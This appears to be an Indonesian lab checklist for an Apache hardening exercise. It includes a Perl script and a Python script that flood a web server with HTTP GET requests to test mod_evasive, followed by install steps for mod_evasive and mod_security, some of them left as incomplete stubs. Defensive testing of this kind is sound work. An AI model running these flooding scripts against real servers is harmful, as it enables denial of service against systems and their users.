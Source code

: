 ## Peserta harus bisa buktikan log percobaan DOS yang dibuat sendiri
- membuat file ddos menggunakan bahasa pemograman perl ✓
    - nano ddos.pl
        ```
        #!/usr/bin/perl
        # test.pl: a small perl script that test's mod_dosevasive's effectiveness

        use IO::Socket;
        use strict;

        for(0..100) {
            my($response);
            my($SOCKET) = new IO::Socket::INET( 
                Proto   => "tcp",
                PeerAddr=> "127.0.0.1:80"
            );

            if (! defined $SOCKET) { die $!; }
            print $SOCKET "GET /?$_ HTTP/1.0\r\nHost: 127.0.0.1\r\n\r\n";
            $response = <$SOCKET>;
            print $response;
            close($SOCKET);
        }
        ```
- membuat file ddos menggunakan bahasa pemograman python
    - nano ddos.py
        ```
        import socket

        target_ip = "192.168.1.1" # IP address of the target system
        target_port = 80 # Port number of the target system
        message = "GET / HTTP/1.1\r\nHost: {}\r\n\r\n".format(target_ip).encode() # HTTP GET request

        # Create a socket object
        client_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

        # Connect to the target system
        client_socket.connect((target_ip, target_port))

        # Send the HTTP GET request repeatedly
        while True:
            client_socket.send(message)
        ```

## Instalasi Konfigurasi Module ModEvasive
    - yum install mod_evasive

## Customisasi Parameter ModEvasive
    - nano /etc/httpd/conf.d/

## Instalasi Konfigurasi Module ModSecurity
    - yum install mod_security

## Customisasi Parameter / Rule ModSecurity
    - nano /etc/httpd/conf.d/